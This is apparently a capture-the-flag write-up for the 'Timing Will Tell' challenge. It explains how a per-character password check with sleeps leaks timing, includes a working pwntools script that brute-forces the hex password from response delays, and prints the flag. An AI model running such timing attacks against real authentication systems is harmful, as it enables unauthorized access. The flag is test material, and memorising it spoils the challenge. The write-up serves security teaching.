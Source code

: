 # Timing Will Tell

A side channel timing attack.  
Figure out the password in 90 seconds before connection terminates.  
The password is dynamic and changes every connection session.

**NOTE, the password is eight characters long and will be hexadecimal.**

File: [app.py]()

-----

Looking at the provided file, we see a random password of 8-characters (4 bytes) is generated with `secrets.token_hex` each time we connect to the instance.

```python
def generate_password() -> str:
    """
    generate a random password at start up
    """
    tmp = secrets.token_hex(PASSWORD_LEN).lower()
    return tmp
```

When we provide an input as our `guess`, it first checks that the length of our `guess` is the same as the password (8 characters), sleeping for `0.1` seconds if true. It then loops through our provided guess and checks each character in our `guess` matches the corresponding character in the password, sleeping `0.1` seconds if that passes.

```python
def check_guess(guess, realdeal) -> bool:
    """
    validate if the given guess matches what's known
    """
    # Check length of guess is 8 characters
    if len(guess) != len(realdeal):
        return False

	# Sleep 0.1 seconds
    do_heavy_compute()

	# Check each character in guess matches password
	# Sleep for 0.1 if char matches
    for idx in range(len(guess)):
        if guess[idx] == realdeal[idx]:
            do_heavy_compute()
        else:
            return False
    return True
```

Based on the `time.sleep` only being called when we provide (1) a guess of 8 characters and (2) the first character in our guess matches that of the password, we can guess the password based on the timing of the response as the correct characters will produce a longer response time.

```python
from pwn import *
import time

r = remote('challenge.ctf.games', 30241)

def check_guess(guess):
    r.recvuntil(b': ')
    r.sendline(guess.encode())
    start_time = time.time()
    response = r.recvline().decode()
    elapsed_time = time.time() - start_time
    print("Response:", response.strip())
    return elapsed_time

def find_password():
    password = '0' * 8
    characters = "0123456789abcdef"

    for index in range(8):
        timing_results = []

		# Make guess and time the response
        for char in characters:
            current_guess = password[:index] + char + password[index+1:]
            response_time = check_guess(current_guess)
            timing_results.append((response_time, char))

		# Get longest response time
        timing_results.sort(reverse=True, key=lambda x: x[0])
        password = password[:index] + timing_results[0][1] + password[index+1:]
        print("Current password guess:", password)

    return password

if __name__ == "__main__":
    final_password = find_password()
    print("Final password:", final_password)
```

Running this returns the flag:

```
flag{ab6962e29ed608c0710dbf2910f358d5}
```
